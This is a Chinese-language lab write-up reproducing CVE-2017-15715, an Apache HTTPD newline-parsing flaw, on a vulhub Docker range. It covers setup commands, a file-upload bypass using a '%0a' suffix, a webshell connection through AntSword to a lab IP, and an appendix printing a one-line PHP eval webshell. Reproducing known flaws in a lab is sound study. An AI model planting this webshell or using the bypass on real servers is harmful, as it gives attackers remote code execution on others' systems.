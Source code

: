 # 一、概述
CVE-2017-15715 是指Apache HTTPD解析`PHP`的一个漏洞。是由于HTTPD Server在解析`PHP`时。`exp.php\x0A`将被按照PHP后缀进行解析，导致绕过一些服务器的安全策略。

# 二、影响版本
* 2.4.0~2.4.29版本

# 三、靶场复现
* 开始搭建靶场，这里我使用`vulhub`的靶场线下搭建
``` linux
root@wq:/home/wq/vulhub-master/httpd/CVE-2017-15715# ls
1.png  2.png  3.png  docker-compose.yml  Dockerfile  index.php  README.md
root@wq:/home/wq/vulhub-master/httpd/CVE-2017-15715# pwd
/home/wq/vulhub-master/httpd/CVE-2017-15715
root@wq:/home/wq/vulhub-master/httpd/CVE-2017-15715# docker-compose build
root@wq:/home/wq/vulhub-master/httpd/CVE-2017-15715# docker-compose up -d
Creating network "cve-2017-15715_default" with the default driver
Creating cve-2017-15715_apache_1 ... done
CONTAINER ID   IMAGE                   COMMAND                CREATED         STATUS         PORTS                                   NAMES
729352e8049c   cve-2017-15715_apache   "apache2-foreground"   7 seconds ago   Up 6 seconds   0.0.0.0:8080->80/tcp, :::8080->80/tcp   cve-2017-15715_apache_1
```
* 靶场验证：

![图 5](.images/CVE-2017-15715/IMG_20220115-100534943.png)  

# 四、漏洞发现过程
* 备注：此过程有部分的针对性，只作为参考使用
* 找到文件上传位置，正常上传`txt`文件
![图 1](.images/CVE-2017-15715/IMG_20220115-103905146.png)  
* 开始上传PHP木马文件, 上传失败
![图 1](.images/CVE-2017-15715/IMG_20220115-105136865.png)  
![图 2](.images/CVE-2017-15715/IMG_20220115-105203714.png)  
* 查看server服务版本信息
![图 3](.images/CVE-2017-15715/IMG_20220115-105423443.png)  
* 猜测具有`PHP`解析问题，即`CVE-2017-15715`，并开始抓包分析

# 五、漏洞验证
* 观察靶场内的是否上传成功，使用工具为`BP`进行抓包重放
![图 1](.images/CVE-2017-15715/IMG_20220115-125410081.png)  
![图 2](.images/CVE-2017-15715/IMG_20220115-125458716.png)  
![图 4](.images/CVE-2017-15715/IMG_20220115-125534463.png)  
![图 5](.images/CVE-2017-15715/IMG_20220115-125920159.png)  
![图 6](.images/CVE-2017-15715/IMG_20220115-125947114.png)  
![图 7](.images/CVE-2017-15715/IMG_20220115-130003838.png)  
![图 8](.images/CVE-2017-15715/IMG_20220115-130114181.png)  
![图 10](.images/CVE-2017-15715/IMG_20220115-130156739.png)  
* 正常请求自己已经上传成功的PHP木马文件
![图 11](.images/CVE-2017-15715/IMG_20220115-130501353.png)  
* 通过中国蚁剑尝试连接`Webshell`，连接地址为：`http://192.168.10.134:8080/Upload.php%0a`
![图 12](.images/CVE-2017-15715/IMG_20220115-130652656.png)  
![图 13](.images/CVE-2017-15715/IMG_20220115-130730653.png)  
* 进入后台查看文件，发现文件确实存在
![图 14](.images/CVE-2017-15715/IMG_20220115-130833618.png)  

# 六、附录：
* 我的Webshell php一句话木马
```php
<?php
    $a=$_POST['H'];
    eval("$a");
?>  
```

# 七、总结
Apache httpd 换行解析漏洞主要存在与apahce 2.4版本